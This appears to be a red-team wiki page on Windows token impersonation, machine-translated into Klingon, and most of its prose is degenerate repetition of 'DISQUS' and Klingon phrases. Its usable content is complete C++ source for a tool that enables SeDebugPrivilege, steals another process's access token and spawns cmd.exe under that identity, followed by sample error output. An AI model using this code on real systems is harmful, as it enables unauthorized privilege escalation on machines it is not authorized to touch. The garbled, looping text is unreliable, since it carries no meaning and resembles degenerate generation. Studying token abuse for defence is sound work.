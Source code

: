 <details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!</strong></a> <strong>tlhIngan Hol</strong></summary>

**HackTricks** yIbuS **tlhIngan Hol**:

* **tlhIngan Hol** **HackTricks** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS** **DISQUS**
```cpp
impersonateuser.exe 1234
```
{% code title="impersonateuser.cpp" %}
```cpp
// From https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962

#include <windows.h>
#include <iostream>
#include <Lmcons.h>
BOOL SetPrivilege(
HANDLE hToken,          // access token handle
LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
BOOL bEnablePrivilege   // to enable or disable privilege
)
{
TOKEN_PRIVILEGES tp;
LUID luid;
if (!LookupPrivilegeValue(
NULL,            // lookup privilege on local system
lpszPrivilege,   // privilege to lookup
&luid))        // receives LUID of privilege
{
printf("[-] LookupPrivilegeValue error: %u\n", GetLastError());
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
if (bEnablePrivilege)
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
else
tp.Privileges[0].Attributes = 0;
// Enable the privilege or disable all privileges.
if (!AdjustTokenPrivileges(
hToken,
FALSE,
&tp,
sizeof(TOKEN_PRIVILEGES),
(PTOKEN_PRIVILEGES)NULL,
(PDWORD)NULL))
{
printf("[-] AdjustTokenPrivileges error: %u\n", GetLastError());
return FALSE;
}
if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
{
printf("[-] The token does not have the specified privilege. \n");
return FALSE;
}
return TRUE;
}
std::string get_username()
{
TCHAR username[UNLEN + 1];
DWORD username_len = UNLEN + 1;
GetUserName(username, &username_len);
std::wstring username_w(username);
std::string username_s(username_w.begin(), username_w.end());
return username_s;
}
int main(int argc, char** argv) {
// Print whoami to compare to thread later
printf("[+] Current user is: %s\n", (get_username()).c_str());
// Grab PID from command line argument
char* pid_c = argv[1];
DWORD PID_TO_IMPERSONATE = atoi(pid_c);
// Initialize variables and structures
HANDLE tokenHandle = NULL;
HANDLE duplicateTokenHandle = NULL;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInformation;
ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
startupInfo.cb = sizeof(STARTUPINFO);
// Add SE debug privilege
HANDLE currentTokenHandle = NULL;
BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &currentTokenHandle);
if (SetPrivilege(currentTokenHandle, L"SeDebugPrivilege", TRUE))
{
printf("[+] SeDebugPrivilege enabled!\n");
}
// Call OpenProcess(), print return code and error code
HANDLE processHandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, PID_TO_IMPERSONATE);
if (GetLastError() == NULL)
printf("[+] OpenProcess() success!\n");
else
{
printf("[-] OpenProcess() Return Code: %i\n", processHandle);
printf("[-] OpenProcess() Error: %i\n", GetLastError());
}
// Call OpenProcessToken(), print return code and error code
BOOL getToken = OpenProcessToken(processHandle, MAXIMUM_ALLOWED, &tokenHandle);
if (GetLastError() == NULL)
printf("[+] OpenProcessToken() success!\n");
else
{
printf("[-] OpenProcessToken() Return Code: %i\n", getToken);
printf("[-] OpenProcessToken() Error: %i\n", GetLastError());
}
// Impersonate user in a thread
BOOL impersonateUser = ImpersonateLoggedOnUser(tokenHandle);
if (GetLastError() == NULL)
{
printf("[+] ImpersonatedLoggedOnUser() success!\n");
printf("[+] Current user is: %s\n", (get_username()).c_str());
printf("[+] Reverting thread to original user context\n");
RevertToSelf();
}
else
{
printf("[-] ImpersonatedLoggedOnUser() Return Code: %i\n", getToken);
printf("[-] ImpersonatedLoggedOnUser() Error: %i\n", GetLastError());
}
// Call DuplicateTokenEx(), print return code and error code
BOOL duplicateToken = DuplicateTokenEx(tokenHandle, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
if (GetLastError() == NULL)
printf("[+] DuplicateTokenEx() success!\n");
else
{
printf("[-] DuplicateTokenEx() Return Code: %i\n", duplicateToken);
printf("[-] DupicateTokenEx() Error: %i\n", GetLastError());
}
// Call CreateProcessWithTokenW(), print return code and error code
BOOL createProcess = CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &startupInfo, &processInformation);
if (GetLastError() == NULL)
printf("[+] Process spawned!\n");
else
{
printf("[-] CreateProcessWithTokenW Return Code: %i\n", createProcess);
printf("[-] CreateProcessWithTokenW Error: %i\n", GetLastError());
}
return 0;
}
```
{% endcode %}

## Qagh

Qagh vItlhutlhlaHbe'chugh vaj System vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj 'oH vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'ch
```cpp
[+] OpenProcess() success!
[+] OpenProcessToken() success!
[-] ImpersonatedLoggedOnUser() Return Code: 1
[-] ImpersonatedLoggedOnUser() Error: 5
[-] DuplicateTokenEx() Return Code: 0
[-] DupicateTokenEx() Error: 5
[-] CreateProcessWithTokenW Return Code: 0
[-] CreateProcessWithTokenW Error: 1326
```
QaQmey, qaStaHvIS High Integrity level Daq 'oH permissions vItlhutlh.\
**processes explorer** (be'joy' process hacker) vaj 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 'oH 'ej 